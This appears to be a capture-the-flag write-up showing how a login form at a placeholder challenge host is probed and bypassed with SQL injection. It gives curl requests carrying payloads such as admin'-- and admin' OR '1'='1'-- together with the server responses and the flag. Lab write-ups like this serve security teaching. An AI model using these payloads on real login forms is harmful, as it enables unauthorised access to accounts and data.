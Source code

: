 ### Key Observations
1. **Input Method**: POST form with username and password fields
2. **No CSRF Protection**: No visible CSRF tokens
3. **Basic HTML Form**: Simple implementation suggests potential vulnerabilities

Let's try a normal login attempt:
```bash
$ curl -X POST http://challenge.example.com:1337/login \
    -d "username=test&password=test"
    
Response: "Invalid credentials"
```

---

## 💡 Solution Approach  

### Method 1: SQL Injection Testing

Since this appears to be a basic login form, let's test for SQL injection vulnerabilities.

1. **Step 1**: Test basic SQL injection payloads
   ```bash
   # Test single quote
   $ curl -X POST http://challenge.example.com:1337/login \
       -d "username=admin'&password=test"
   
   Response: "SQL syntax error near 'admin'' at line 1"
   ```
   
   🎯 **Bingo!** The error message reveals this is vulnerable to SQL injection.

2. **Step 2**: Craft SQL injection payload to bypass authentication
   ```bash
   # Use comment to ignore password check
   $ curl -X POST http://challenge.example.com:1337/login \
       -d "username=admin'--&password=anything"
   
   Response: "Welcome admin! Flag: flag{sql_injection_basic_bypass_123}"
   ```

3. **Step 3**: Verify with different payloads
   ```bash
   # Alternative payload
   $ curl -X POST http://challenge.example.com:1337/login \
       -d "username=admin' OR '1'='1'--&password=test"
   
   Response: "Welcome admin! Flag: flag{sql_injection_basic_bypass_123}"
   ```

---

## 🛠️ Technical Details
